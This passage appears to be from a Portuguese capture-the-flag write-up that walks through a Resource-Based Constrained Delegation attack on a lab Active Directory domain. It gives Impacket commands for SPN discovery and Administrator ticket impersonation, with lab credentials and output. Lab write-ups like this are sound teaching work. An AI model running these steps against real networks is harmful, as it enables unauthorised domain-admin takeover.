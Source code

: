 | **Parâmetro**                      | **Significado**                                                                                       |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `-delegate-from RBCDPC$`           | Nome do **computador malicioso** (que foi criado com o `addcomputer.py`) que vai **usar a delegação** |
| `-dc-ip 10.10.107.33`              | IP do Domain Controller (DC)                                                                          |
| `-action 'write'`                  | Define que você deseja **escrever a delegação** (poderia ser `read`, `remove`, etc.)                  |
| `K2.THM/o.armstrong:'arMStronG08'` | Credenciais do usuário que possui `GenericWrite` sobre o objeto do DC                                 |
| `-delegate-to K2ROOTDC$`           | Nome do **Domain Controller** (objeto de computador no AD) que você quer delegar o acesso             |
 
### 6.2.3 Descobrindo SPN (Service Principal Name) no alvo.  
É necessário saber o **SPN (Service Principal Name)** associado ao serviço do Domain Controller.

Uma forma de obter esse SPN é usando o BloodHound, onde é possível visualizar os SPNs vinculados a máquinas ou usuários.

Outra forma é utilizando o `GetUserSPNs.py`, do Impacket:
`GetUserSPNs.py K2.THM/o.armstrong:'arMStronG08' -dc-ip 10.10.107.33`

Caso não apareça nenhum SPN associado diretamente a um usuário, você ainda pode usar SPNs **comuns do DC**, como:
- `cifs/k2rootdc.k2.thm`
- `ldap/k2rootdc.k2.thm`
- `host/k2rootdc.k2.thm`

Esses SPNs podem ser utilizados normalmente para forjar um **TGS com `getST.py`** no ataque de RBCD.

### 6.2.4 Obtendo Ticket personificado
Agora é hora de obter o **ticket de serviço personificado** com o usuário `Administrator`.

```
arthur-strelow@ubuntu-star:~$ getST.py -spn 'cifs/K2ROOTDC.K2.THM' -impersonate Administrator -dc-ip 10.10.107.33 'K2.THM/RBCDPC$:Passw0rd123!'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
	[*] Requesting S4U2self
	[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_K2ROOTDC.K2.THM@K2.THM.ccache
```

| **Parâmetro**                   | **Significado**                                                                          |
| ------------------------------- | ---------------------------------------------------------------------------------------- |
| `-spn 'cifs/K2ROOTDC.K2.THM'`   | SPN (Service Principal Name) do serviço alvo, neste caso o **CIFS do DC**                |
| `-impersonate Administrator`    | Usuário alvo da **personificação (impersonation)** — você está assumindo o Administrator |
| `-dc-ip 10.10.107.33`           | IP do Domain Controller (KDC)                                                            |
| `'K2.THM/RBCDPC$:Passw0rd123!'` | Credenciais da **máquina com permissão de delegação** configurada via RBCD               |

